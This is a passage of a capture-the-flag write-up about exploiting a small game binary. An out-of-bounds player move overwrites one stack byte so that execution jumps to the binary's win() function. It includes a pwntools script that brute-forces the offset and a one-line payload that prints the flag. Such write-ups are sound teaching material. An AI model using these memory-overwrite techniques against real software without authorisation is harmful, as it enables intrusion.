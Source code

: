 Then on checking the stack, i got an address of the stack that looks very similar to the win() function
![image](https://user-images.githubusercontent.com/113513376/228244859-0de6a39f-1b8f-4983-93fc-a4c36823ef00.png)

We can see the similarity between the stack address 0x08049709 and the win function address 0x0804975d

Only one byte difference that makes it not the same as the win function address

Now next thing is that since while we move round the map and out of bound, the player character is also moving round the stack therefore overwriting bytes on the stack which makes the program crashes, the idea i think is that there's a particular memory on the stack can be overwritten to the win function address.

And for this to occur the character needed to overwrite it is ] which will later turn to 5d in hex

And we know that the l function changes the player character to anything specified. So that means we can change our player character to ]

So basically we can control where this ] ends up as this 0x5d which is now the player so we can try and find the position on the map that is 89 bytes offset from that address that is close to the win function which is the stack address we got earlier

Using a script i made to move round the map and get the offset

```
#!/usr/bin/env python3

from pwn import *

context.log_level = 'warning'

for offset in range(40, 50):
    game = process('./game')

    game.sendline(b'l]')
    game.sendline(b'w'*4)
    game.sendline(b'd'*offset)
    game.sendline(b'wp')

    output = game.recvall()
    if b'testing' in output:
        print(f" offset: {offset}")
        break

    game.close()
```

I already have file flag.txt whose content is `testing{fake_flag}`

Running the script gives the offset to get to the win function
![image](https://user-images.githubusercontent.com/113513376/228699966-296419b0-8d84-4ad4-82a9-d3ae7dfdba94.png)

Now i can get the flag by running 

```
python2 -c "print 'l]' + 'wwww' + 'd'*47 + 'wp'"  | ./game
```
